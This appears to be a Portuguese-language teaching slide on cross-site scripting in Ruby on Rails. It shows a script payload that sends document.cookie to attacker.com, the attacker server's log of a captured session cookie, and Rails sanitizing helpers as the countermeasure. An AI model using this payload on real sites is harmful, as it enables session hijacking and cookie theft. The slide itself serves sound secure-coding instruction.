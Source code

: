 ## Confiar no conteudo fornecido pelo usuario?

##

![](images/grumpy-cat-no-1.jpg)

##


Conteudo malicioso:

```
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```


Servidor do mal:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

## Contra-medidas

- [Sanitizacao de dados](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html)
    - `strip_tags`, `strip_links`, `sanitize`


```
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```
